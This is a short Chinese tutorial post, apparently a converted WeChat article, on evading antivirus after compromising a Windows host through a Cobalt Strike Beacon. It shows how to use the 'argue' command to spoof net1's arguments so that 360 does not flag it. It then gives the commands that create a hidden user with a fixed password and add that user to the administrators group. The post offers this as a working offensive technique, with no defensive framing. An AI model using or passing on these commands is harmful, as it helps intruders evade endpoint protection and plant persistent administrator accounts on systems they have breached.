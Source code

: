 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247485469&idx=1&sn=1bd61a4e90d832b3282538a576e22bc7&chksm=eaad8820ddda0136bdb9d2d129c00449100e7ae444744869f166413a062670db254b4d99d9c1&scene=21#wechat_redirect)

在获取了对方主机 CobaltStrike Beacon 后，需要执行一些敏感的操作 (如创建用户等)。但是目标主机有 AV，执行敏感命令会直接报毒等，这时我们可以使用 Cobaltstrike 自带的 argue 参数污染来执行敏感操作。

使用 argue 参数污染创建新用户并加入管理员组中  

使用前提：administrator 或 system 权限。执行创建新用户命令，360 报毒

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2c64ocPkSQTNElNicTicVGVU67ZoVx6EicumrAPOYv3GQPvXsgdXfKMyDWhjrGibic3iavN8fHwGic1WTnYQ/640?wx_fmt=png)

使用 argus 参数污染 net1  

```
#参数污染net1 
argue net1
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
#查看污染的参数 
argue
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2c64ocPkSQTNElNicTicVGVU6BSDiadpbgL1bDxZJCWv9WkrA65WEY4lxKEbibKokSVkoGz5U7NtT9x2A/640?wx_fmt=png)

用污染的 net1 创建用户，发现创建成功，360 也不报毒  

```
#用污染的net1执行敏感操作
execute net1 user test root123 /add
execute net1 localgroup administrators test /add
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2c64ocPkSQTNElNicTicVGVU6ial15hIHLscA0iclqpbW8HNG3keo5NmpTPpBsTmjxkPUibGaueqjdEhTA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2c64ocPkSQTNElNicTicVGVU6e44IMbZQ1Gib3CzTf2QJiaPTLZHqI7Wfsofz05qQZrXWTgBRHicnH4Bdg/640?wx_fmt=png)